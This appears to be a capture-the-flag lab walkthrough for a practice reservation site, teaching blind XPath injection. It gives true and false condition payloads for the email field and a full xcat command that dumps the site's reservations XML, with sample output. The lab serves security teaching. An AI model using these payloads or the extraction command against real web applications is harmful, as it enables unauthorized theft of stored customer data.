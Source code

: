 # Challenge #1 - Deliccio 1

## Objectives

- Each customer can book a table and leave any particular information for the reservation. The web application stores the reservation in an xml file. Extract all the reservation of the day.

## Hints

- Recommended tools
  - Burps suite
  - Web Browser
  - XPath Blind Explorer 1.0

## What you will learn

- How to exploit XPath 1.0 Blind Injection
- How to extract information from an xml file through a blind XPath injection
- How to use XPath Blind Explorer 1.0
- How to craft XPath Blind Explorer requests with Burp Proxy

## Steps

Click in 'Book your seat' and make a reservation.

```
Name: example
E-mail: example@email.com
Phone: 123
Lenght: 2
```

With burp enabled, go to 'Check your reservation' page and send with the reservation email.

```
http://1.challenge.xpath.site/checkreservation.php
```

Response
```
The reservation is <span>confirmed</span>!
```

On the burp side, send the request to repeater and replace the email parameter with the payloads below.

True condition
```
email=' or '1'='1
```

Response
```
The reservation is <span>confirmed</span>!
```

False condition
```
email=' or '1'='2
```

Response
```
There is no reservation that corresponds to the data entered..
```

Download the last version of XCat.

```
https://github.com/orf/xcat
```

Execute the command below to run xcat.

```
xcat run -m POST http://1.challenge.xpath.site/checkreservation.php email email="example@email.com" -ts 'confirmed' -e FORM

<reservations>
	<reservation>
		<id>
			1
		</id>
		<fullname>
			Amelia Sandoval
		</fullname>
		<email>
			f1rs7@3mail.c0m
		</email>
		<phone>
			45696283863
		</phone>
		<res_lenght>
			4
		</res_lenght>
		<info>
			No secret here..
		</info>
	</reservation>
[...]
```
